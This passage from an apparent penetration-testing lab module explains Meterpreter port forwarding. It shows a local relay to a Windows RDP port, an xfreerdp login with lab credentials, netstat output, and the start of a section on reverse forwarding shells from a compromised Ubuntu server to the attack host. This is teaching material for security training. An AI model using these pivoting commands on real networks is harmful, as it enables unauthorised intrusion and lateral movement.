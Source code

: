     meterpreter > help portfwd
    
    Usage: portfwd [-h] [add | delete | list | flush] [args]
    
    
    OPTIONS:
    
        -h        Help banner.
        -i <opt>  Index of the port forward entry to interact with (see the "list" command).
        -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
        -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
        -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
        -r <opt>  Forward: remote host to connect to.
        -R        Indicates a reverse port forward.
    

#### Creating Local TCP Relay

    meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
    
    [*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
    

The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

#### Connecting to Windows Target through localhost

    matmarqx@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
    

#### Netstat Output

We can use Netstat to view information about the session we recently established. From a defensive perspective, we may benefit from using Netstat if we suspect a host has been compromised. This allows us to view any sessions a host has established.

    matmarqx@htb[/htb]$ netstat -antp
    
    tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
    

## Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.

#### Reverse Port Forwarding Rules
